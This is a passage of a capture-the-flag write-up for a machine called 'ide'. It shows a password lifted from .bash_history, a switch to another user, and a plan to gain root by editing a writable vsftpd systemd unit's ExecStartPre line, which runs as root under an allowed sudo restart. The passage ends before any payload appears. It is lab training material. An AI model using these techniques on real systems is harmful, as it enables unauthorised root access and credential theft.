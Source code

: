 ```bash
-rw-r--r-- 1 drac drac    0 Jun 17  2021 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18  2021 .xsession-errors
-r-------- 1 drac drac   33 Jun 18  2021 user.txt
```

I start checking the files in this directory that I have read permissions. The .bash_history file has what I need:

```bash
$ cat .bash_history
mysql -u drac -p 'REDACTED'
```

With that password I run the following:

```bash
$ su drac
$ cat user.txt
REDACTED
```

## root.txt

Now that I have a new user I ran my [usual list of commands](/concepts/privilege_escalation.md#linux-privilege-escalation). The id command and the sudo -l command provided interesting results:

```bash
$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
$ sudo -l
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

I did a google search for "privilege escalation /usr/sbin/service". I found an [interesting article](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-service-privilege-escalation) that explains what I am about to do.

The service command uses a configuration file to start, restart or stop a service. That configuration file has a property called ExecStartPre that specifies a command that can be ran before a service is started or restarted. Since I am going to run the service command using sudo, the ExecStartPre command will also be ran as root.

I do a search for the vsftpd service configuration file:

```bash
$ find / -name "*vsftpd*" 2>/dev/null
/lib/systemd/system/vsftpd.service
/etc/systemd/system/multi-user.target.wants/vsftpd.service
$ ls -lha /lib/systemd/system/vsftpd.service
-rw-rw-r-- 1 root drac 270 Jul  4 15:34 /lib/systemd/system/vsftpd.service
$ ls -lha /etc/systemd/system/multi-user.target.wants/vsftpd.service
lrwxrwxrwx 1 root root 34 Jun 18  2021 /etc/systemd/system/multi-user.target.wants/vsftpd.service -> /lib/systemd/system/vsftpd.service
```
